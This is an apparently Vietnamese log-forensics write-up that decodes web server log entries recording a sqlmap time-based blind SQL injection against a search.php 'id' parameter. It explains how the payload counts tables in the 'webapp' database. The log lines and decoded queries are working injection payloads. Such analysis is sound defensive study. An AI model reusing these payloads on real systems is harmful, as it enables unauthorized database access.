 ```log
42.112.114.236 - - [10/Aug/2020:08:30:34 +0000] "GET /webapp/search.php?id=123%20AND%20%28SELECT%206037%20FROM%20%28SELECT%28SLEEP%285-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28COUNT%28table_name%29%20AS%20NCHAR%29%2C0x20%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%3D0x776562617070%29%2C2%2C1%29%29%3E9%2C0%2C5%29%29%29%29%29BEVL%29 HTTP/1.1" 200 414 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
```

decode URL:

```
42.112.114.236 - - [10/Aug/2020:08:30:26  0000] "GET /webapp/search.php?id=123 AND (SELECT 6037 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(table_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x776562617070),1,1))>51,0,5)))))BEVL) HTTP/1.1" 200 413 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
42.112.114.236 - - [10/Aug/2020:08:30:26  0000] "GET /webapp/search.php?id=123 AND (SELECT 6037 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(table_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x776562617070),1,1))>48,0,5)))))BEVL) HTTP/1.1" 200 414 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
42.112.114.236 - - [10/Aug/2020:08:30:34  0000] "GET /webapp/search.php?id=123 AND (SELECT 6037 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(table_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x776562617070),1,1))>49,0,5)))))BEVL) HTTP/1.1" 200 415 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
42.112.114.236 - - [10/Aug/2020:08:30:34  0000] "GET /webapp/search.php?id=123 AND (SELECT 6037 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(table_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x776562617070),1,1))!=49,0,5)))))BEVL) HTTP/1.1" 200 417 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
42.112.114.236 - - [10/Aug/2020:08:30:34  0000] "GET /webapp/search.php?id=123 AND (SELECT 6037 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(table_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x776562617070),2,1))>51,0,5)))))BEVL) HTTP/1.1" 200 414 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
42.112.114.236 - - [10/Aug/2020:08:30:34  0000] "GET /webapp/search.php?id=123 AND (SELECT 6037 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(table_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x776562617070),2,1))>48,0,5)))))BEVL) HTTP/1.1" 200 414 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
42.112.114.236 - - [10/Aug/2020:08:30:34  0000] "GET /webapp/search.php?id=123 AND (SELECT 6037 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(table_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x776562617070),2,1))>9,0,5)))))BEVL) HTTP/1.1" 200 414 "-" "sqlmap/1.4.7#stable (http://sqlmap.org)"
```


Nhìn vào param `id` có thể thấy câu query khá là dài
```sql
id=123 AND (SELECT 6037 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(COUNT(table_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x776562617070),1,1))>51,0,5)))))BEVL)
```

Phân tích từng phần của câu query như sau:

```sql
SELECT IFNULL(CAST(COUNT(table_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x776562617070
``` 
Đầu tiên attacker thực hiện lấy ra số tables trong database `0x776562617070(WHERE table_schema=0x776562617070)` tên database đã được encode dưới dạng hex, decode hex 0x776562617070 -> webapp như vậy là attacker đã nhắm vào database webapp trong số các databases mình đã phân tích ở phần trước
